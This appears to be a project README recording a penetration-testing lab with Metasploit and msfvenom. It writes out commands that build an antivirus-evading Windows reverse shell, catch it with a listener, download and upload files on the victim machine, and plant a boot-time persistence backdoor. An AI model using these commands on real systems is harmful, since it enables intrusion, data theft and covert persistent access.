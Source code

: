 # Custom Payload Development Using Metasploit and Msfvenom

**Overview:**  
In this project, I developed and deployed custom payloads using the **Metasploit Framework** and **Msfvenom** to test the security controls of my target environment. The goal was to create a reverse shell payload and successfully exploit a system by gaining remote access, simulating real-world attack scenarios.

---

## Project Steps

### **1. Setting Up the Environment**

To develop custom payloads, I used **Kali Linux** as my primary operating system due to its built-in tools for penetration testing. Both **Metasploit Framework** and **Msfvenom** were used extensively to create and deliver payloads.

- **Kali Linux Installation:**  
  I set up Kali Linux on my local machine using VirtualBox and ensured that I had the necessary networking configurations (Bridged Mode for access to the target machine).

**Tools Used:**
- **Metasploit Framework**: A powerful penetration testing tool used for exploitation.
- **Msfvenom**: A tool used for creating custom payloads to be used in Metasploit or standalone.
  
[Official Kali Linux Download](https://www.kali.org/get-kali/#kali-bare-metal)

---

### **2. Developing a Custom Payload (Msfvenom)**

Msfvenom is the tool I used to create a custom reverse shell payload that allowed me to gain access to a target machine. I used a **Windows reverse TCP payload**, which is one of the most common payloads for penetration testing.

**Steps:**

1. **Generating the Payload:**
   I created a reverse shell payload using Msfvenom with the following command:
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Your IP] LPORT=4444 -f exe > payload.exe
   ```
   - `-p windows/meterpreter/reverse_tcp`: Specifies the payload as a reverse shell for Windows.
   - `LHOST`: The local IP address of my attacking machine (Kali Linux).
   - `LPORT=4444`: The port on which the reverse shell will connect.
   - `-f exe`: Format the payload as a Windows executable (`payload.exe`).

2. **Obfuscation (Optional Step):**
   To avoid detection by antivirus software, I applied basic obfuscation techniques to make the payload more difficult to detect. For example:
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Your IP] LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe > obfuscated_payload.exe
   ```
   - `-e x86/shikata_ga_nai`: Specifies an encoder to obfuscate the payload.
   - `-i 5`: Number of iterations for the encoder.

**Result:**  
I successfully generated the payload as a `.exe` file, ready for delivery to the target machine.

---

### **3. Setting Up a Listener (Metasploit)**

Once the payload was created, I set up a listener using **Metasploit** to catch the reverse shell connection when the payload was executed on the target machine.

**Steps:**

1. **Starting Metasploit:**
   I launched Metasploit Framework on Kali Linux:
   ```bash
   msfconsole
   ```

2. **Configuring the Exploit Handler:**
   I used the **exploit/multi/handler** module to handle the incoming reverse shell connection:
   ```bash
   use exploit/multi/handler
   ```

3. **Configuring Payload and Options:**
   I set the payload to match the one I created with Msfvenom and configured the listener:
   ```bash
   set payload windows/meterpreter/reverse_tcp
   set LHOST [Your IP]
   set LPORT 4444
   ```

4. **Start the Listener:**
   I then started the listener to wait for the connection from the target machine:
   ```bash
   exploit
   ```

**Result:**  
The Metasploit listener was set up and ready to receive the reverse shell once the payload was executed on the target.

---

### **4. Delivering the Payload**

To simulate a real-world attack scenario, I delivered the custom payload to the target machine through a method such as a phishing email or USB drop. In this case, I used manual execution on a test system to verify functionality.

**Steps:**

1. **Transfer the Payload:**
   I transferred the `payload.exe` (or `obfuscated_payload.exe`) to the target machine via file-sharing, email, or USB.

2. **Execution of Payload:**
   Once the payload was executed on the target machine, it initiated a connection back to my Metasploit listener (on port 4444).

---

### **5. Gaining Remote Access (Meterpreter)**

Once the payload was executed and the reverse shell connection was established, I used **Meterpreter**, a powerful payload in Metasploit, to gain control of the target system.

**Steps:**

1. **Confirming the Session:**
   After the payload connected to my listener, I received a Meterpreter session:
   ```bash
   meterpreter > sysinfo
   ```
   This command confirmed that I had successfully gained access to the target machine.

2. **Performing Post-Exploitation Tasks:**
   With a Meterpreter session active, I was able to perform various tasks on the compromised machine, including:
   - **Viewing System Information:**
     ```bash
     sysinfo
     ```
   - **Navigating the File System:**
     ```bash
     ls
     cd C:\\Users\\Target\\Documents
     ```
   - **Capturing Screenshots:**
     ```bash
     screenshot
     ```
   - **Uploading/Downloading Files:**
     ```bash
     download C:\\Users\\Target\\Documents\\secret.txt
     upload /path/to/your/file.exe C:\\Windows\\Temp\\file.exe
     ```

**Result:**  
I successfully gained remote access to the target machine, allowing for further post-exploitation activities.

---

### **6. Persistence and Cleanup**

After establishing access, I ensured persistence on the target system to maintain control even if the system rebooted. I then cleaned up any traces of my presence to ensure the system was not left vulnerable.

**Steps:**

1. **Setting Up Persistence:**
   I used Meterpreter’s persistence module to create a backdoor that would reconnect the target machine to my listener every time it restarted:
   ```bash
   run persistence -X -i 10 -p 4444 -r [Your IP]
   ```
   - `-X`: Autostart the payload when the system boots.
   - `-i 10`: The interval in seconds for reconnect attempts.
   - `-p 4444`: The port on which the connection will be made.

2. **Cleaning Up:**
   Once testing was completed, I removed all traces of the payload and terminated the Meterpreter session to prevent any unintended consequences.

---

## **Tools Used:**

- **Msfvenom**: Used to generate custom payloads.
- **Metasploit Framework**: Used to handle reverse shells and post-exploitation tasks.
- **Meterpreter**: A payload within Metasploit for controlling compromised systems.

---

## **Lessons Learned:**

This project helped me develop a deeper understanding of:
- How to create and customize payloads using Msfvenom.
- How to use the Metasploit Framework to manage payloads and control compromised systems.
- Techniques for post-exploitation tasks, such as file access, screenshot capture, and system persistence.
- The importance of cleaning up and maintaining system integrity after testing.

---

This README serves as documentation of my experience developing and deploying custom payloads using Metasploit and Msfvenom. Through this project, I gained hands-on experience in creating payloads, delivering them to a target, and performing remote exploitation activities, simulating a real-world penetration test scenario.

